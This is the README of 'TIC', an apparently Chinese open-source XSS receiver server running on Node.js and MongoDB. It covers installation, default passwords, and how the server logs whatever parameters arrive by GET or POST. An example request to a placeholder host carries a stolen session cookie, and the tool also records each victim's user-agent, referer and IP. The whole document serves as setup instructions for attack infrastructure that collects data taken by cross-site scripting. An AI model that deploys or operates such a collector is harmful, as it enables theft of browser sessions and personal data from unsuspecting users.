 # TIC

TIC,一个简单的XSS服务端. 0x_Jin
  
#### 所需依赖

1. iojs or node.js
2. mongodb

#### 操作流程

1. 安装mongodb后需要最好开启mongodb的ip绑定,绑定到127.0.0.1
2. 安装完后启动mongodb 使用mongo命令来管理mongodb. 添加数据库账户.   
>use TIC  
db.addUser('TIC','ThisIsPass')  
如果你不想使用这个账号密码,可以更改为其他的.但是请同时修改TIC.js中的这段代码.  
mongoose.connect('mongodb://TIC:ThisIsTIC@localhost/TIC');
3. 进入TIC目录,启动TIC.js (iojs TIC.js) , 程序会运行在本地的8080端口
>如果需要修改端口,可以找到下面这段代码,把8080修改成你想要变更的端口.  
http.createServer(server).listen(8080);
4. 本程序提供了结果查看页,路径为: /view , 为了安全性加上了基础认证. 默认基础认证 username:0x_Jin , password:wooyun . 你可以在TIC.js中找到下面这段代码修改为你想要变更的账号密码.
>if (!credentials || credentials.name !== '0x_Jin' || credentials.pass !== 'wooyun')
5. 如果你想自己写一个结果查看页,你可以直接从 /receiver 来获得数据  
6. 关于结果如何插入,除了.js .css 以及/view /receiver这些路径外的参数都会接受并存入数据库
> example:http://xxxx:8080/?url=baidu.com&cookie=PHPSESSION%3Dxxxxxxx&ip=127.0.0.1  除了GET外,POST也可以.
7. 结果分为两大部分,第一部分为header,第二部分为request
>header中存储的内容是程序获得到的请求者的数据,user-agent referer 源IP  
  request中存储的内容为请求过来的数据 比如页面地址,cookie,ip等.